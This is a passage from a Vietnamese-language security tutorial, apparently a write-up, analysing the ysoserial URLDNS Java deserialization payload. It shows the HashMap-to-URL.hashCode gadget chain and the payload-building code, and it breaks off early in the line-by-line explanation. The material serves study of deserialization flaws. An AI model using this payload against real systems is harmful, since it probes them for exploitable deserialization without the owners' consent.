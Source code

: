 ### Tiến hành phân tích source và payload

Tiến vào trong payload ta thấy rằng có rất nhiều dòng comment để giải thích luồng hoạt động của payload cho ta dễ hiểu được cách mà payload đó hoạt động ở đây có dòng : 

```text
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

Ở đây họ comment cho mình luôn gadget chain của payload này cụ thể ở đây nó sẽ lần lượt gọi đến theo thứ tự : 

```java 
HashMap.readObject() --> HashMap.putVal() --> HashMap.hash() --> URL.hashCode()
```

Bây giờ ta đi vào các thành phần bên trong payload.

![image](https://hackmd.io/_uploads/Sk3HkhhAgg.png)

```java 
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
```

Ở comment nói khá đầy đủ nhưng mình vẫn sẽ phân tích từng đoạn một : 

- Hàm `getObject(final)` được gọi khi mà bắt đầu quá trình serialize
